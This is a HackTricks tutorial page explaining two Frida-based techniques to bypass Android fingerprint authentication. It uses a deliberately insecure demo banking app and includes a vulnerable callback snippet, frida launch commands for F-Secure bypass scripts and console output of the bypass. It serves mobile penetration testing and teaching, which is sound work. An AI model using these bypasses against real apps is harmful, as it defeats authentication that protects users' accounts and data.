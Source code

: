 # Bypass Biometric Authentication (Android)

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

</details>

These methods were copied from [https://securitycafe.ro/2022/09/05/mobile-pentesting-101-bypassing-biometric-authentication/](https://securitycafe.ro/2022/09/05/mobile-pentesting-101-bypassing-biometric-authentication/)

## **Method 1 – When the crypto object is not used**

The authentication implementation relies on the callback _**onAuthenticationSucceded** _ being called. The researchers from F-Secure developed a [**Frida script**](https://github.com/FSecureLABS/android-keystore-audit/blob/master/frida-scripts/fingerprint-bypass.js) that can be used to **bypass** the NULL _**CryptoObject** _ in _**onAuthenticationSucceeded(…)**_. The script will automatically bypass the fingerprint when the aforementioned method is called. Here is a short example that shows the bypass for the Android Fingerprint. The complete application can be downloaded from my [GitHub](https://github.com/St3v3nsS/InsecureBanking).

```javascript
biometricPrompt = new BiometricPrompt(this, executor, new BiometricPrompt.AuthenticationCallback() {
            @Override
            public void onAuthenticationSucceeded(@NonNull BiometricPrompt.AuthenticationResult result) {
                Toast.makeText(MainActivity.this,"Success",Toast.LENGTH_LONG).show();
            }
});
```

```
frida -U -f com.st3v3nss.insecurebankingfingerprint --no-pause -l fingerprint-bypass.js
```

### **Method 2 – Exception Handling**

This [**Frida script**](https://github.com/FSecureLABS/android-keystore-audit/blob/master/frida-scripts/fingerprint-bypass-via-exception-handling.js) developed by F-Secure can be used to bypass the insecure usage of the crypto object. All the script needs to do is manually call the _**onAuthenticationSucceded**_ with a **non-authorized** (not unlocked by fingerprint) _**CryptoObject**_ stored in the Keystore. The catch is if the application will attempt to use another cipher object, then an **exception will be thrown**. This script will attempt to call _**onAuthenticationSucceded** _ and catch the exception _**javax.crypto.IllegalBlockSizeException**_ in _Cipher_ class. From now on, **any objects the application uses will be encrypted using this new key**.

```
frida -U -f com.st3v3nss.insecurebankingfingerprint --no-pause -l fingerprint-bypass-via-exception-handling.js
```

Now, go to the fingerprint screen and wait for the _authenticate_() to be called. Once you see that on the screen, go ahead and type _**bypass()**_ in the Frida console:

```
Spawning `com.st3v3nss.insecurebankingfingerprint`...                   
[Android Emulator 5554::com.st3v3nss.insecurebankingfingerprint ]-> Hooking BiometricPrompt.authenticate()...
Hooking BiometricPrompt.authenticate2()...
Hooking FingerprintManager.authenticate()...
[Android Emulator 5554::com.st3v3nss.insecurebankingfingerprint ]-> bypass()
```

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

</details>
